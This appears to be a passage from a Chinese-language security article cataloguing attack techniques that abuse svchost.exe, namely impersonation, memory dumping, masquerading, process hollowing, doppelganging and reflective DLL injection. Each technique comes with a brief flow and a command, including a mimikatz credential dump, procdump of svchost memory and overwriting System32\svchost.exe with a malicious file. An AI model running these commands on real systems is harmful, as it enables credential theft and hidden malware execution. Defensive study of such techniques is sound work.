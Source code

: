  **3\. Process Impersonation**

 **说明:  **Mimikatz伪装svchost执行

 **流程:**  Mimikatz -> 执行命令 -> 攻击svchost.exe -> 获得svchost权限

  * 

    
    
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

 **4\. 内存转储文件**

 **说明:  **转储svchost内存

 **流程:**  svchost.exe -> 启动内存转储 -> 提取内存内容 -> 保存为转储文件

  * 

    
    
    procdump.exe -ma svchost.exe dumpfile.dmp

 **5\. 未授权创建文件**

 **说明:  **使用svchost复制恶意文件

 **流程:**  恶意文件 -> 复制操作 -> 名称为svchost.exe -> 放置在目标目录

  * 

    
    
    copy malicious.exe C:\Windows\System32\svchost.exe

 **6\. Process Hollowing**  

 **说明:  **svchost傀儡进程运行恶意代码

 **流程:**  svchost.exe -> 挂起进程 -> 空内存部分 -> 注入恶意代码 -> 使用恶意代码恢复进程

  * 

    
    
    hollow.exe svchost.exe malicious.exe

https://github.com/boku7/HOLLOW

 **7\. Process Doppelganging**

 **流程:**  恶意文件 -> 创建NTFS事件 -> 用svchost数据覆盖 ->  返回事件 -> 以svchost身份执行恶意代码

  * 

    
    
    doppel.exe svchost.exe malicious.bin

https://github.com/Spajed/processrefund

 **8\. 反射DLL注入**

 **说明:  **在不接触磁盘的情况下将 DLL 注入 svchost

 **流程:**  内存中的恶意dll -> 找到svchost.exe进程 -> 在svchost中分配内存 -> 将dll复制到分配的内存 ->
执行恶意dll -> svchost运行注入的dll
